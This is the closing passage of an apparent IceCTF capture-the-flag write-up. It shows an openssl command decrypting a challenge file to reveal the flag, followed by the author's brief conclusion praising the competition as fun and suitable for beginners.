$ openssl aes-256-cbc -a -d -in flag.enc -out flag.txt
enter aes-256-cbc decryption password: [key]
$ cat flag.txt
IceCTF{cover_your_flags_in_mayonnaise_and_primes_guys}
```

Great :-)

# Conclusion

This was a fun CTF, perfect for beginners. Good diversity and entertaining problems, no complicated problems that require no though and only large amounts of work or guessing. Some quirks with unintended vulnerabilities in some challenges along they way, but the organizers did a good job.